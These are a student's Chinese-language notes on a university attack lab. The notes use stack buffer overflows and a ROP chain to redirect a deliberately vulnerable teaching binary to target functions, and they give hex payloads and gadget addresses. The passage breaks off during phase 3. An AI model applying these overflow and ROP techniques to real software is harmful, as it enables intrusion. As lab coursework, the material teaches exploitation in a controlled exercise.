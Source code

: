 # 第三周lab实验笔记
本次实验共五个任务，前三个在ctaget上，4和5在rtarget上。 
一开始看这个实验一脸懵逼，看的官网的writewp大体明白了这个实验是个啥子意思

## phase_1
根据writewp上的源码，我们需要通过栈溢出控制程序流程跳转至touch1函数
test函数源码
```
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```
test函数中调用了getbuf函数，查看其反汇编代码
```
pwndbg> disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret    
```
可以看到只需要溢出0x28的数据即可覆盖rip控制程序流程
查看touch1的地址
```
pwndbg> p touch1
$1 = {void ()} 0x4017c0 <touch1>
```
然后就是这次实验给出的工具hex2raw，我们需要通过这个工具生成字符串完成实验
创建attach.txt并在其中存入如下内容
```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 c0 17 40
```
前面这些a的十六进制表示我是拿010生成的，后面再手动补上小端存储的touch1地址
然后执行程序完成本次实验
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image1.png)

## phase_2
touch2源代码
```
1 void touch2(unsigned val)
2 {
3 vlevel = 2; /* Part of validation protocol */
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```
程序要求我们令val的值等于我们的cookie值才能通过，而val则是作为函数的第一个参数传入，也就是说只要让rdi寄存器的值等于cookie就可以了
使用ROPgadget找到如下gadget
```
0x000000000040141b : pop rdi ; ret
```
然后构造ROP链如下所示
```
fa 97 b9 59 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 1b 14 40 00 00 00 00 00 
fa 97 b9 59 00 00 00 00 ec 17 40 00 00 00 00 00
```
完成phase_2
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image2.png)



## phase_3
touch3的源码
```
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 char cbuf[110];
5 /* Make position of check string unpredictable */
6 char *s = cbuf + random() % 100;
7 sprintf(s, "%.8x", val);
8 return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13 vlevel = 3; /* Part of validation protocol */
14 if (hexmatch(cookie, sval)) {
15 printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 validate(3);
17 } else {
18 printf("Misfire: You called touch3(\"%s\")\n", sval);
19 fail(3);
20 }
21 exit(0);
22 }
```
发现其调用了hexmathch函数

